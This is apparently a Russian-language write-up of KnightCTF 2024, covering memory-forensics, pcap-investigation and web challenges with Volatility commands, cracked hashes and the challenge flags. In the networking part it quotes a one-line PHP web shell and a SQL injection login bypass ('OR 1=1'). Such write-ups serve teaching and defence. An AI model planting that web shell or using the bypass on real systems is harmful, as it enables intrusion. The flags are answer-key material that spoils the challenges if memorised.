

# KnightCTF 2024

---

### Digital Forensics 1: OS

```sh
Description:

My boss, Muhammad, sent me this dump file of a memory. He told me that this OS has a malware virus that runs automatically. I need to find some more information about this OS, and the hacker also created some files in this OS. He gave me a task to solve this within 24 hours. I am afraid. Will you please help me? My boss sent some questions; please solve them on my behalf. There are total 7 challenges in this series. Best of luck.

What is the OS version?

Flag Format: KCTF{1.1.1111.11111}
```

Выявляем профиль и версию ОС:


Пометочка - по какой-то не понятной причине плагин imageinfo отдает неверные приближенные значения профилей ОС:


`KCTF{7.1.7601.24214}`

---

### Digital Forensics 2: IP Addr

```sh
Description:

What is the IP address of this system?

Please use the attachment of the first challenge.

Flag Format: KCTF{127.0.0.1}
```

Команда для исследования сетевых подключений (используем плагин netscan):

```sh
vol2.exe -f KnightSquad.DMP --profile=Win7SP1x64 netscan
```

Вариантов не много, кроме 10.0.2.15 больше никаких IP-адресов нет


`KCTF{10.0.2.15}`

---

### Digital Forensics 3: Password

```sh
Description:

What is the login password of the OS?

Please use the attachment of the first challenge.

Flag Format: KCTF{password}
```

Для получения хэшей паролей применяем плагин hashdump:

```sh
vol2.exe -f KnightSquad.DMP --profile=Win7SP1x64 hashdump
```


Через CrackStation находим пароль:

```sh
7ab3201ceecd554f772573bb064a0f38 (NTLM) - squad
```


`KCTF{squad}`

---

### Digital Forensics 4: Note

```sh
Description:

My boss has written something in the text file. Could you please help me find it?

Please use the attachment of the first challenge.

Flag Format: KCTF{something_here}
```

Получаем список файлов системы с помощью плагина filescan:

```sh
vol2.exe -f KnightSquad.DMP --profile=Win7SP1x64 filescan
```


Сохраняем вывод в файл для дальнейшего удобства исследования (filepaths.txt). Среди файлов находим директории пользователя siam. Постепенно сужаем круг поиска файлов. Сначала делаем grep относительно файлов пользователя `siam`, а затем находим следующие файлы:


Таким образом мы обнаружили два текстовых файла. Дампим их при помощи плагина dumpfiles:

```sh
vol2.exe -f KnightSquad.DMP --profile=Win7SP1x64 dumpfiles --dump-dir=./ -Q 0x00000000b9d1ef20

vol2.exe -f KnightSquad.DMP --profile=Win7SP1x64 dumpfiles --dump-dir=./ -Q 0x00000000b9ba7bb0
```


Файл text2.txt имеет следующее содержимое:


Декодируем из base64 найденный текст:

```sh
S0NURntSZXNwZWN0X1kwdXJfSGVyNG5raX0= - KCTF{Respect_Y0ur_Her4nki}
```

`KCTF{Respect_Y0ur_Her4nki}`

---

### Digital Forensics 5: Execution

```sh
Description:

y leader, Noman Prodhan, executed something in the cmd of this infected machine. Could you please figure out what he actually executed?

Please use the attachment of the first challenge.

Flag Format: KCTF{Fl4g_h3re}
```

Чтобы посмотреть, что именно было сделано пользователем через консоль, необходимо воспользоваться плагином consoles:

```sh
vol2.exe -f KnightSquad.DMP --profile=Win7SP1x64 consoles
```


Находим запущенный файл `windows.bat`, который просто выводит нужный флаг:

`KCTF{W3_AR3_tH3_KniGHt}`

---

### Digital Forensics 6: Path of the Executable

```sh
Description:

What is the path folder of the executable file which execute privious flag?

Please use the attachment of the first challenge.

Flag Format: KCTF{D:\Program Files\Windows\here}
```

Это задание основано на основе предыдущего - нам нужна директория файла `windows.bat`

`KCTF{C:\Users\siam\Documents}`

---

### Digital Forensics 7: Malicious

```sh
Description:

What is the malicious software name?

Please use the attachment of the first challenge.

Flag Format: KCTF{Software.Extentention}
```

Здесь мы просто вновь анализируем файлы (filescan) в системе и находим интересный исполняемый файл - `MadMan.exe`, который является вредоносным:


`KCTF{MadMan.exe}`

---

### Networking 1: Vicker IP

```sh
Description:

Hi! It's good to see you again in my networking series. There are total 18 challenges in this series & based on real life events of how can a server be compromised. Please download the attachment which will be used to answer all the questions. Don't make it too complex. Just keep it simple. Hope you'll solve them all. Wish you all a very good luck.

Scenario: Recently one of Knight Squad's asset was compromised. We've figured out most but need your help to investigate the case deeply. As a SOC analyst, analyze the pacp file & identify the issues.

So let's start with the basic.

What is the victim & attacker ip?

Flag Format: KCTF{victimIp_attackerIp}
```

Скачиваем .pcap файл и начинаем исследование. При этом сразу замечаем, что крайне много подозрительных запросов исходит от 192.168.1.7 на 192.168.1.8


`KCTF{192.168.1.7_192.168.1.8}`

---

### Networking 2: Basic Enum

```sh
Description:

What tool did the attacker use to do basic enumeration of the server?

Please use the attachment of the first challenge.

Flag Format: KCTF{toolname}
```

Среди пакетов можно обнаружить работу сетевого сканера Nmap, а также инструментов Nikto и sqlmap. Пробуем в качестве вариантов найденные инструменты и получаем флаг.


`KCTF{nikto}`

---

### Networking 3: Vulnerable Service

```sh
Description:

What service was vulnerable to the main server?

Please use the attachment of the first challenge.

Flag Format: KCTF{service_version} >>all_lower_case
```

Среди пакетов также можно найти работу с FTP `vsFTPd 2.3.4`. Данная версия уязвима и имеет свой собственный идентификатор - `CVE-2011-2523` - уязвимость представляет собой `backdoor`, позволяющий реализовать `RCE`


`KCTF{vsftpd_2.3.4}`

---

### Networking 4: CVE ID

```sh
Description:

What's the CVE id for the vulnerable service?

Please use the attachment of the first challenge.

Flag Format: KCTF{CVE-xxxx-xxxx}
```

В предыдущем таске мы выяснили, что уязвимость имеет идентификатор `CVE-2011-2523`, что и является флагом к заданию.

`KCTF{CVE-2011-2523}`

---

### Networking 5: Famous Tool

```sh
Description:

The attacker used a popular tool to gain access of the server. Can you name it?

Please use the attachment of the first challenge.

Flag Format: KCTF{toolname}
```

В данном таске скорее всего речь идет о том, как именно была произведена эксплуатация CVE-2011-2523. При этом упоминается **популярный** инструмент. Скорее всего, речь о `Metasploit`, у него есть встроенный модуль для эксплуатации данной уязвимости `exploit/unix/ftp/vsftpd_234_backdoor`

`KCTF{metasploit}`

---

### Networking 6: PORT

```sh
Description:

What was the port number of the reverse shell of the server?

Please use the attachment of the first challenge.

Flag Format: KCTF{port}
```

Типичным поведением во время эксплуатации CVE-2011-2523 является открытие соединения на порту 6200 на стороне злоумышленника.


`KCTF{6200}`

---

### Networking 7: Hidden File

```sh
Description:

What's the flag of the hidden file?

Please use the attachment of the first challenge.

Flag Format: KCTF{fLaG}
```

Т.к. мы выяснили, что злоумышленник реализовал reverse shell через FTP, значит, его следы надо искать в TCP-пакетах:


Среди потока с revese shell видно чтение файла `.Fl4g.tXT` - это и есть искомый скрытый файл:


```sh
37n3vq6rp6k05ov33o5fy5b33sj3rq2sy4p56735853h9
```


> Ссылка на декодер: https://www.calcresult.com/misc/cyphers/twin-hex.html

`KCTF{ExPloItiNg_S3RvEr_Is_fUN}`

---

### Networking 8: Confidential

```sh
Description:

There's something confidential. Can you find it?

Please use the attachment of the first challenge.

Flag Format: KCTF{fl4G}
```

Проходя дальше по потоку данных, где мы нашли reverse shell, можно найти упоминание о "конфиденциальной информации":


Собственно, это архив с данными, который нам необходимо извлечь. Воспользуемся инструментом под названием `NetworkMiner`, но тут есть нюанс. Для обработки `.pcapng` требуется профессиональная версия данного инструмента, поэтому мы просто возьмем и переделаем исходный файл c расширением `.pcapng` в `.pcap` при помощи следующей команды:

```sh
find . -type f -name '*.pcapng' -print0 | while IFS= read -r -d '' f; do editcap -F libpcap "$f" "${f%.pcapng}.pcap"; done
```

Далее просто закидываем полученный файл в NetworkMiner и находим нужный нам архив, а затем извлекаем флаг:




`KCTF{Y0U_Ar3_N3tW0rk_M1n3r}`

---

### Networking 9: BackDoor

```sh
Description:

What is the backdoor file name?

Please use the attachment of the first challenge.

Flag Format: KCTF{filename.ext}
```

Продолжаем двигаться по найденному потоку и находим файл `.621b4CkD0oR.php5`, в который помещается `<?php echo system("$_GET['cmd']");?>`, что свидетельствует о том, что этот файл явялется полноценным бэкдором:


Притом, название на самом деле здесь подразумевается в полном формате (нет на скрине выше)

`KCTF{.621b4CkD0oR.php5}`

---

### Networking 10: Super Admin

```sh
Description:

What is the super admin password in the web application?

Please download this to solve the challenge. You might need this to solve the other challenges.

Flag Format: KCTF{password}
```

Для решения данного таска нужно обратиться к второй части исходников, как указано в описании задания. Второй исходник представляет собой дамп БД:


Обращаем внимание на вставляемые значения:


Видим логины и хэши паролей. Под супер-админом, скорее всего, подразумевается `root`. Пробуем найти этот хэш:

```sh
https://md5hashing.net/hash/md5/5f27f7648285dec7954f5ee1ad696841
```


`KCTF{letmeinroot}`

---

### Networking 11: Admin Flag

```sh
Description:

Can you find the Admin Flag of the web server?

Please use the attachment of the first challenge.

Flag Format: KCTF{fl4G}
```

Анализируя прочие архивы, лежавшие рядом с `maybeconfidential.zip`, можно найти одно интересное условие в исходном коде. В архиве `app.zip` добираемся до файла `dashboard.php`: 


```sh
91)ZJH[.;F?Ulel?Z\hM?U83sBl79ICc#dQ
```

По факту, когда админ логинится, то ему выводится строка выше. На самом деле это и есть флаг, просто он зашифрован в `base85`:


`KCTF{y0U_G0t_tHe_AdMin_Fl4g}`

---

### Networking 12: Vuln

```sh
Description:

What was the vulnerability on the edit task page & what parameter was vulnerable?

Please use the attachment of the first challenge.

Flag Format: KCTF{VULN_parameter} only the parameter is case sensitive.
```

Обращаемся все к тем же исходникам из `app.zip` и исследуем его на предмет потенциальных уязвимостей:


Получается, что параметры в sql-запросе встраиваются напрямую, что позволяет добиться `sql injection`, получается, что искомый уязвимый параметр - `taskId`. В подтверждение к этому, обращение к данному параметру можно увижеть и в потоке HTTP:

  

`KCTF{sqli_taskId}`

---

### Networking 13: Famous Tool 2

```sh
Description:

What tool did the attacker use to identify the vulnerability of edit task page?

Please use the attachment of the first challenge.

Flag Format: KCTF{toolname/version}
```

Тут все достаточно просто. Мы уже находили упоминание об `sqlmap` в первых тасках раздела `networking`. Пробудлируем находку:

 

`KCTF{sqlmap/1.7.10#stable}`

---

### Networking 14: Something Interesting

```sh
Description:

There's something interesting. Can you find it?

Please use the attachment of the first challenge.

Flag Format: KCTF{fl4G}
```

Снова возвращаемся ко вторым выданным нам исхожникам и находим следующее:


Как раз и намек на `something`. Декодируем:


Приводим в порядок!

`KCTF{Y0u_aRe_InTeREsTiNg}`

---

### Networking 15: Hidden Page

```sh
Description:

There was a hidden page which was only accessible to root & was removed from the web app for security purpose. Can you find it?

Please use the attachment of the first challenge.

Flag Format: KCTF{filename.ext}
```

Вновь возвращаемся к исходникам сайта и обнаруживаем следующую ссылку:


Это и есть та самая скрытая директория

`KCTF{terminal-13337.php}`

---

### Networking 16: DB Details

```sh
Description:

What is the database username & databasename?

Please use the attachment of the first challenge. And keep in mind that the file you have is the backup file. There might be an update to the database.

Flag Format: KCTF{username_dbname}
```

Вот тут пришлось попотеть. Первое, что нам надо сделать - открыть TCP-поток, где просматривается трафик reverse shell'а и заметить команду `mysqldump`:


Тем самым, мы выяснили, что пользователь у нас `db_user`. Далее нам надо узнать название БД. Это можно сделать, как минимум, двумя способами:

1. Посмотреть исходники - `app/models/db.php`
2. Посмотреть дамп БД - `backup.sql`


`KCTF{db_user_kctf2024}`

---

### Networking 17: API Key

```sh
Description:

What's the API Key?

Please use the attachment of the first challenge.

Flag Format: KCTF{API-KEY}
```

Собственно, завершает данный раздел тасков, таск на поиск API-токена. Но, если вернуться на предыдущий таск, то можно понять, что мы этот токен уже нашли (app/models/db.php):


---

### Web 1: Levi Ackerman

```sh
Description:

Levi Ackerman is a robot!

N:B: There is no need to do bruteforce.
```

 13


`KCTF{1m_d01n6_17_b3c4u53_1_h4v3_70}`

---

### Web 2: Kitty

```sh
Description:

Tetanus is a serious, potentially life-threatening infection that can be transmitted by an animal bite.

N:B: There is no need to do bruteforce.
```


`KCTF{Fram3S_n3vE9_L1e_4_toGEtH3R}`

---

### Web 3: README

```sh
Description:

Read me if you can!!

N:B: There is no need to do bruteforce.
```


`KCTF{kud05w3lld0n3!}`

---

### Web 4: Gain Access 1

```sh
The web challenges are very much similar to real life application bugs. This is going to be a series of Gain Access with 3 challenges unlocks upon solving one by one. By solving these challenges, you'll gain a practical knowledge of Authentication Bypass Vulnerabilites as well as business logic error. The only difference is you'll not get any bounty but you'll get flags. Give it a try. And keep in mind, Don't make it hard, keep it simple. All the best. Solve the challenges & be a cyber knight.

No need to bruteforce. There's a rate limit. If you send continuous requests, you'll be blocked for 3 minutes.
```


```sh
' OR '1'='1
```


`KCTF{ACc0uNT_tAk3Over}`

---
